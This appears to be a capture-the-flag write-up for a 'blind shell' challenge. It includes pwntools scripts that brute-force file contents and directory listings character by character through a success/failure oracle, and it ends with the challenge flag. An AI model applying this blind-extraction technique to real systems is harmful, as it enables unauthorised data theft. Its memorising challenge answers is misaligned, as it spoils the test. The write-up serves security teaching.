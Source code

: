 # blind_shell_writeup
`It's simple enough, either you've succeeded or you've failed.
Connect here: nc tasks.kksctf.ru 30010`

Connecting with netcat we're presented with a blind shell accepting only certain commands and responding either with "Success!" or "Failure!". So we thought about a blind attack to try to read the content of the file flag.txt with the bash command `[ $(head -c 1 flag.txt | tail -c 1) = 'a' ]` by incrementing the number of characters read everytime. The script worked like this
```
from pwn import *
import string

payload = "[ $(head -c {} flag.txt | tail -c 1) = '{}' ]"

r = remote("tasks.kksctf.ru", 30010)
r.recvuntil("$")
flag = ""
i = len(flag) + 1
found = False
while True:
    for l in string.printable:
        found = False
        r.sendline(payload.format(i, l))
        if b"Success" in r.recvuntil("$"):
            i = i+1
            flag += l
            found = true
            print("[+] Char found! {}".format(flag))
            break
    if not found:
        flag += " "
        i += 1
```
Unfortunately the flag wasn't there. So we stared looking around with ls using the same technique

```
from pwn import *
import string

payload = "[ $(ls | head -c {} | tail -c 1) = '{}' ]"

r.recvuntil("$")
flag = ""
i = len(flag) + 1
found = False
while True:
    for l in string.printable:
        found = False
        r.sendline(payload.format(i, l))
        if b"Success" in r.recvuntil("$"):
            i = i+1
            flag += l
            found = True
            print("[+] Char found! {}".format(flag))
            break
    if not found:
        flag += " "
        i+=1
 ```
We find another file called `maybehere` but reading it doesn't work because it's a directory! So we cd in it and surely the flag is inside. You can check out the final working script in the repo. Finally the flag `kks{Bl1nD_sH311_s2cKs_b4t_Y0U_ar3_amaz19g}`
